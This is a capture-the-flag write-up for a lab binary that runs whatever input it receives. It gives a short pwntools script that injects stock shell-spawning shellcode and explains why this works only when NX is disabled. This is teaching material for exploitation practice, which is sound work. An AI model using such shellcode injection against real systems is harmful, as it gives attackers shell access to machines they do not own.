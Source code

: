 The binary uses gets to input up to 500 bytes, then executes them. While gets is
unsafe, we cannot easily exploit it due to stack canaries. However, this doesn't
matter since the binary is just executing the data we give it. That means that
if we give it some code that creats a shell for us (often called shellcode), we
can get the flag. The easiest way to get shellcode is just to copy it from
online. pwntools includes tons of different types of shellcode.

```python
from pwn import *
context.binary = 'shellysellsshells'
p = process('shellysellsshells')
p.sendline(asm(shellcraft.sh()))
p.interactive()
```

The `context.binary` is important so pwntools knows if we are using a 32 or 64
bit binary, so it can select the right shellcode.

The `shellcraft.sh()` call returns a string of assembly, so feel free to look at
it to see how it works. If you ever need to write custom shellcode, the pwntools
shellcode is often a good place to start. The `asm` function compiles the
assembly into machine code.

This sort of exploit only works if a feature called "NX" is disabled on the
binary. We can check if NX is disabled by running `pwn checksec
shellysellsshells`

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

If NX is enabled, the stack is marked as non executable. This means that even if
we jump to code on the stack, the binary will refuse to run it. Because of this,
shellcode can only really be used if the problem writer turned off NX.
